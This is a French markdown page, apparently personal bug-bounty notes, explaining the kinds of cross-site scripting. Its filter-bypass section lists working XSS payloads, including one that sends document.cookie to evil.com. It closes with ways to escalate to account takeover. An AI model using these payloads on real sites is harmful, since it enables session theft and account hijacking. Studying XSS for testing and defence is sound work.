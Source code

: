 # XSS (Cross Site Scripting)
## Qu'est ce qu'une XSS

C'est le fait de pouvoir injecter un script que ça soit en JS, HTML, Flash, VBScript ou tout autre langage susceptible d'être exécuté par le navigateur. 

Nous injectons notre code, si l'ordinateur comprends ce que l'on a donné un input et qu'il l'exécute, alors la XSS est confirmée. 

## Types de XSS

### Stored (Stockée)

Les **XSS** de type stockées, sont des injections de scripts qui sont enregistrés en serveur, et appelées de manière non ou mal sécurisée. 

Il s'agit de la XSS la plus critique car elle touche un plus grand nombre d'utilisateur à contrario des autres types de XSS. 

### Blind XSS

Les XSS de type blind sont des XSS de type Stockée, mais qui est exécutée sur un autre endroit du serveur.

Par exemple, on envoie un mail à l'admin via un formulaire de contact, l'admin ouvre sur l'interface d'administration et se prends la XSS.

Elle est souvent utilisée pour de l'**Account Takeover** et de l'**Exfiltration de données** d'administrateurs, mais elle en reste la plus compliquée pour être détectée car aucun élément visuel nous permet de voir que l'injection à été fonctionnelle.

### Reflected XSS

La Reflected envoie le code malicieux au serveur, qui exécute le script et retourne aussitôt le résultat sans pour autant la stocker. 

Exemple, si nous faisons une recherche dans un site pour un produit, et que dans l'url nous avons le résultat de notre recherche, alors nous pouvons tenter une XSS:

>*"\https://mon-url/products/search?q=\<script>alert(1)\</script>"

Si l'injection fonctionne, alors on l'envoie à un utilisateur et il déclenchera l'injection.

### DOM XSS

La Dom XSS est à peu près similaire à la Reflected, à la différence que l'injection n'appelle pas le serveur, mais est executée directement sur la copie locale du client. 

La Dom XSS est due au rendu de l'input utilisateur sur le client de manière non sécurisée.

Cependant attention, car **TOUT** ne se passe pas forcément sur un paramètre d'url.

### Self XSS

La self XSS est une XSS qui nécessite l'interaction utilisateur et donc, agit comme un "phishing", et donc est globalement exclue des programmes de BB.

## Bypass de filtre

Pour bypass les filtres:
- essayer de fermer l'input :   '\<img src="**"/>\<script>alert(1)\</script>\</img>**'
- essayer d'utiliser directement des commandes js: '\<img src="**\javascript:alert(1)"**>\</img>'
- essayer de jouer avec les fonctions d'appel js : '\<img src="**123" onerror="alert(1)"**>'
- encoder avec le datafilter : "\data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- Capitaliser : "\<scRiPT>location='\http://evil.com/c='+document.cookie;\</scRiPT>"
- Si quote et double quote filtrées, utiliser String.fromCharCode pour forger sa string
- Contourner la logique des filtres : "\<scrip\<script>t>alert(1)\</scrip\</script>t>"
### Escalade de la vulnérabilité

Avec les XSS, on peut évoluer sa criticité en passant d'une xss simple à un Account Takeover en volant par exemple les creds d'un admin.

On peut aussi effectuer une IDOR en volant l'id d'un compte et tenter d'accéder à des données qui ne nous appartiennent pas.

Ou bien même également RCE si on exécute les scripts avec les droits d'administrateur.

Et voir aussi compromettre l'intégrité totale du site en fonction des droits des utilisateurs.

---

*Todo: Correctifs associés à cette Vulnérabilité*